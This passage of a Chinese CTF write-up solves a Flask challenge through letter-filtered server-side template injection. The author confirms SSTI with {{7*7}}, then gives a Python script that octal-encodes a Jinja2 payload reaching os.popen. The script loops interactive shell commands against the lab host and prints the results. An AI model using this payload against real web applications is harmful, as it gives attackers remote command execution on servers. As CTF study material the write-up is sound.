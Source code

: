 读取hint.php拿到flag位置

![image-20221106183042367](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-07b8a5ec30285ae5cdb5e823875ef8b79a252a8d.png)

读取flag

![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-8e2398fb613c43a91d1ade488c3c977037eb1620.png)

没人比我更懂py
--------

Python且输出返回用户数据, 第一考虑SSTI, 试了一下下`{{7*7}}`返回49, 确定是SSTI, 然后进一步确定是不能有字母, 所以就是`无字母SSTI`

直接使用[Flask ssti](http://diego.team/2020/05/20/Flask-SSTI/)中的脚本使用8进制绕过,构造exp即可, 通过`__subclasses__`看到`Popen`, 然后使用for循环逐个遍历找出popen执行命令输出结果获得flag

```python
import requests

def get(exp):
    dicc = []
    exploit = ""
    for i in range(256):
        eval("dicc.append('{}')".format("\\" + str(i)))
    for i in exp:
        exploit += "\\" + str(dicc.index(i))
    return  exploit

# for i in range(10000):
#     payload = "{{" + f"''['{get('__class__')}']['{get('__mro__')}']['{get('__getitem__')}'](1)['{get('__subclasses__')}']()['{get('pop')}']({i})['{get('__init__')}']['{get('__globals__')}']" \
#                      f"['{get('__builtins__')}']['{get('__import__')}']('{get('os')}')['{get('popen')}']" + "}}"
#     print(payload)
#     url = "http://172.51.60.171/"
#     data = {"data": payload}
#
#     res = requests.post(url, data=data)
#     if "popen" in res.text:
#         print(payload)
#         print(res.text)

# {{lipsum.__globals__.__builtins__['__import__']('os').popen('ls').read()}}分割的一部分
# ''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('').read()
while 1:
    cmd = input("CMD#")
    payload = "{{" + f"''['{get('__class__')}']['{get('__mro__')}']['{get('__getitem__')}'](1)['{get('__subclasses__')}']()['{get('pop')}'](81)['{get('__init__')}']['{get('__globals__')}']" \
                     f"['{get('__builtins__')}']['{get('__import__')}']('{get('os')}')['{get('popen')}']('{get(cmd)}')['{get('read')}']()" + "}}"
    # print(payload)
    url = "http://172.51.60.171/"
    data = {"data": payload}
    res = requests.post(url, data=data)
    print(res.text.split("        <p>")[-1].split("</p>")[0])
```
